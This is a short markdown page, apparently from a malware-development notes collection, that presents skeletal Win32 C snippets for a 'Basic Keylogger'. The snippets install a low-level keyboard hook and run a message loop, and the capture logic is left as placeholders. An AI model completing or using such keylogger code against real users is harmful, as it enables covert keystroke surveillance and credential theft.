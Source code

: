 ```yaml
---
author(s):
  - Userware
tags:
  - malware-development
credits:
  - dtm
---
```

# C

## 01 - Basic Keylogger

```c
LRESULT CALLBACK WindowProc(HWND hwnd, UINT uMsg, WPARAM wParam, LPARAM lParam) {
	switch (uMsg) {
		case WM_CLOSE:
			// ...
			DestroyWindow(hwnd);
	}
}

LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHookEx(idHook, (HOOKPROC)HookProc, hMod, dwThreadId);
	
	// this is our message loop to receive messages from the queue
	MSG msg;
	BOOL bRet;
	while ((bRet = GetMessage(&msg, NULL, 0, 0)) != 0) {
		if (bRet == -1) {
			// handle error
		} else {
			TranslateMessage(&msg);
			DispatchMessage(&msg);
		}
	}
	
	return 0;
}

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	// ...
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
	// ...
	
	SetWindowsHookEx(WH_KEYBOARD_LL, (HOOKPROC)LowLevelKeyboardProc, hModule, 0);
	
	// message loop here
}
```